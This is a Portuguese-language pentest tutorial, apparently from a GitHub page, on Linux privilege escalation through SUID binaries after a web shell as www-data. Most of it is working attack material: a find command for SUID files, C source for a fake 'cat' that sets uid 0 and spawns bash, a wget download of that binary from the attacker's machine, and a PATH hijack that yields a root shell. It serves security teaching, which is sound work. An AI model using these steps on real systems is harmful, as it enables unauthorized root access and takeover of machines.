 ## Escalação de privilégios via binário SUID

Binários presentes no sistema, quando na situação de SUID, podem ser utilizados para escalar privilégios. Para isso, realize uma busca por esses binários:
```
find / -perm -4000 2>&-
```
Em seguida faça a consulta pelo nome do binário neste site: https://gtfobins.github.io/

Caso exista um binário específico (que não possa ser encontrado no repositório acima) é interessante realizar um disassembly para verificar se o mesmo, em algum momento da execução, executa outros binários do sistema. Veja o cenário abaixo:

<br>

**Considere um cenário de pós-exploração web após obter uma shell do usuário www-data (sem privilégios).**

<br>

É necessário buscar por binários SUID
```
find / -perm -4000 2>&-
```
![image](https://user-images.githubusercontent.com/76706456/180345179-c5a19806-54b8-48e8-a2fb-fb42267b07be.png)

Observe na imagem acima que há um binário chamado "script" em /arquivos

Ao executar, ele utiliza o cat para tentar abrir um arquivo inexistente no sistema
![image](https://user-images.githubusercontent.com/76706456/180345380-408e3c33-3ac8-43fb-88cd-7302a2d35706.png)

Neste caso, como o binário "script" é executado como root, ao executar o cat ele o faz com as mesmas permissões. Usaremos essa peculiaridade para escalar nosso privilégio.

Em sua máquina, crie o arquivo cat.c
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void main()
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```
Compile na mesma arquitetura do sistema alvo (**-m32** para sistemas 32 bits)
```
gcc -m32 cat.c -o cat
```
Será gerado um binário chamado **cat**, que chamaremos de cat "falso", uma vez que ele será executado no lugar do original.

Transfira o cat "falso" para o servidor. Podemos iniciar um web server na nossa máquina e baixar no servidor alvo (lembre-se de realizar a transferência em um diretório que o usuário www-data possua permissões de leitura/escrita)
```
python3 -m http.server 80
```
Faremos o download no diretório /tmp
```
cd /tmp;wget http://192.168.0.2/cat
```
Dê permissões ao cat "falso"
```
chmod 755 cat
```
Vamos ver qual é o PATH atual (diretório em que se encontram os binários do sistema)
```
echo $PATH
```
Vamos até o diretório em que se encontra o binário SUID
```
cd /arquivos
```
Vamos redefinir o caminho do PATH, apontando para o diretório em que foi realizado o wget do nosso cat "falso"
```
PATH="/tmp"
```
Agora execute o binário e observe que será obtido root (isso ocorre pois o binário SUID está executando como root o nosso cat "falso", que por sua vez spawna um novo bash)
```
./script
```
Redefina o PATH conforme visto anteriormente para conseguirmos utilizar todos os binários do sistema
```
PATH="/usr/local/bin:/usr/bin:/bin"
```

Observe que foi obtido root:

![image](https://user-images.githubusercontent.com/76706456/180348567-8bd50b1a-b5fe-47d4-81a4-f45aecc46623.png)
